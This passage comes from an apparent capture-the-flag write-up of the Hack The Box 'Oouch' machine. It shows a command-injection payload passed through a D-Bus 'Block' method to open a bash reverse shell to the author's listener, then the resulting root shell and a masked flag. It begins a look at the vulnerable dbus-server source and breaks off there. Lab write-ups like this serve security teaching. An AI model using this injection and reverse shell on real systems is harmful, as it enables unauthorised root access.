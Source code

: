     >>> bus = dbus.SystemBus()                                                      
    >>> block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')        
    >>> block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
    >>> client_ip = '; bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" #'
    >>> response = block_iface.Block(client_ip)                                     
    >>> bus.close()
    

On submitting, I get a root shell on Oouch:

    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.177] 51146
    bash: cannot set terminal process group (2419): Inappropriate ioctl for device
    bash: no job control in this shell
    root@oouch:/root# id
    uid=0(root) gid=0(root) groups=0(root)
    

And I can grab `root.txt`:

    
    
    root@oouch:/root# cat root.txt
    b8371f67************************
    

## Beyond Root

### dbus + iptables

I saw how in the web code it send IPs over dbus. As root, I can see how they
are used. In `/root`, there’s `dbus-server`, and it’s source, `dbus-server.c`:

    
    
    root@oouch:/root# ls
    credits.txt  dbus-server  dbus-server.c  get_pwnd.log  get_pwnd.py  root.txt
    

Looking at the source, this table tells the bus how to handle incoming
messages:

    
    
    /* The vtable of our little object, implements the net.poettering.Calculator interface */             
    static const sd_bus_vtable block_vtable[] = {                                                         
            SD_BUS_VTABLE_START(0),   
            SD_BUS_METHOD("Block", "s", "s", method_block, SD_BUS_VTABLE_UNPRIVILEGED),                   
            SD_BUS_VTABLE_END                                                                             
    };     
    

The “Block” dbus method should go to `method_block`. This function will pull
out the message, read it into `host`. Then it uses `sprintf` to put the host
into a string to form the `iptables` command:

    
    